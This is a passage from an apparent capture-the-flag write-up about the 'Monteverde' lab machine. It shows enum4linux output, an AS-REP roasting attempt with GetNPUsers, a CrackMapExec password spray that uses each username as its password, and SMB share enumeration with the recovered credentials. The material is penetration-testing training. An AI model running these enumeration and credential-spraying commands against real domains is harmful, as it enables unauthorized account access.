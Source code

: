 ```
Group 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary

 =======================================================================
|    Users on 10.10.10.172 via RID cycling (RIDS: 500-550,1000-1050)    |
 =======================================================================
[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.

 =============================================
|    Getting printer info for 10.10.10.172    |
 =============================================
Unable to initialize messaging context
Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED

enum4linux complete on Wed Mar 25 22:31:39 2020

$ GetNPUsers.py -no-pass -dc-ip 10.10.10.172 MEGABANK/smorgan
-> nothing
```

Thanks to [enum4linux][e4l], we now have all users and groups information we need.

Let's try a quick bruteforce where user = password with [CrackMapExec][cme].

```
$ cme smb 10.10.10.172 -u users.txt -p users.txt
...
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs
```

### Network reconnaissance 

We found the password `SABatchJobs` use the username as password.
Let's use this account for enumerating some shares:

```
$ cme smb 10.10.10.172 -u SABatchJobs -p SABatchJobs --shares
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK\SABatchJobs:SABatchJobs
SMB         10.10.10.172    445    MONTEVERDE       [+] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```
